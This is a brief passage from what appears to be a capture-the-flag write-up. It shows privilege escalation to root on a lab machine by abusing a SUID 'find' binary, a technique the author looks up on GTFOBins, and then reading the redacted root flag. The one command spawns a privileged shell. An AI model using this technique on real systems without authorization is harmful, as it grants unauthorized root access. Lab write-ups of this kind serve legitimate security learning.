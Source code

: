 ### root.txt
```
We head over to GTFObins to find an exploit for find
running the below as stoner gets us to root

/usr/bin/find . -exec /bin/sh -p \; -quit

# cat /root/root.txt
REDACTED

```
